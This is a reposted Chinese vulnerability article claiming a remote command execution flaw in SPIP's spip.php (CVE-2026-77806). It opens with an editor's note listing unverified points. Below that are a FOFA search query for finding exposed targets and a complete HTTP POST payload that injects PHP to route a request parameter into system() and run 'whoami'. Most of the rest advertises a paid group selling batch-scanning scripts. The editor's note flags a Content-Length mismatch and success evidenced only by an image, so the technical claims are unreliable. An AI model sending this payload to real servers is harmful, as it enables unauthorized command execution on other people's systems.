




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：aaaannnn参数为何被解释PHP/header未提供；版本/插件/配置完全未述

- **适用与权限边界（1）**：把PHP代码放任意query参数即设置X-Spip-Filtre的前置执行路径没有解释，单请求不能证明真实默认可达。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（2）**：无版本/官方编号链接/源码，CVE及请求关联需优先验证。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（3）**：Content-Length8与0=whoami七字节不匹配（不含额外换行）；成功仅图。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **来源与引用处置（4）**：付费圈广告占主体，漏洞详情却只有售卖脚本。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  SPIP spip.php 存在远程命令执行漏洞复现poc CVE-2026-77806  
原创 安羽安全
                    安羽安全  安羽安全   2026-09-16 03:24  
  
**01****免责声明：**  
  
文章内容仅供日常学习使用，请勿非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任。如有内容争议或侵权，我们会及时删除。  
  
**本周漏洞速递｜20个高危漏洞预警+漏洞复现poc**  
  
**02    漏洞描述**  
  
SPIP spip.php存在远程命令执行漏洞复现poc (CVE-2026-77806)  
  
    FoFa：  
body="spip.php"  
  
  
## 03    漏洞复现   
  
1、复现poc  
```
POST /spip.php?page=sommaire&aaaannnn=%3C%3Fphp%20header(%22X-Spip-Filtre:%20intval|_request|system%22);%20%3F%3E HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Content-Length: 8

0=whoami
```  
  
2、命令执行成功  
  
  
  
**04    漏洞详情**  
  
**Nuclei 批量自查验证脚本，加入下方内部圈子获取**  
  
  
  
🎯 圈子提供什么？  
  
✅ **每周3–7个Nuclei POC**  
 —— 开箱即用，直接放进扫描器批量验证  
  
✅ **每周10–20篇漏洞复现文章**  
 —— 完整分析+请求包+利用方式  
  
✅ **覆盖OA、ERP、中间件、开源平台**  
等实战常见系统  
  
✅ **500+漏洞文档、200+POC**  
，历史内容永久可看  
  
✅ **MD5解密 + 网盘资源搜索**  
辅助服务  
  
  
  
  
**加入后即可查看 全部历史内容、漏洞库、Nuclei poc、每周持续更新**  
  
**价格随着人数增加而增加，限时 49 一年**  
  
  
  
  
**本周漏洞速递｜20个高危漏洞预警+漏洞复现poc**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
